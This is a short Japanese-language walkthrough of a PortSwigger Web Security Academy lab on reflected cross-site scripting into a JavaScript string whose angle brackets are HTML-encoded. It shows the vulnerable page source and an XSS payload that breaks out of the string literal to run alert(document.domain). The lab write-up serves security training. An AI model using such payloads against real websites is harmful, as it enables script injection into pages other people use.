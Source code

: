 # XSS を山括弧付き HTML エンコードされた JavaScript 文字列に反映

以下のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

- 1. ハッキングラボにアクセスします
- 2. 任意の文字列で検索を行います
- 3. 検索結果のページソースを確認します

```html
<script>
  var searchTerms = "abc";
  document.write('<img src="/resources/images/tracker.gif?searchTerms=' + encodeURIComponent(searchTerms) + '">');
</script>
<section class="blog-list no-results"></section>
```

- 4. 文字列リテラルを抜けるために以下のワードで検索します

```js
"-alert(document.domain)-";
```

アラートが表示され、スクリプトが実行出来ていることが確認できます
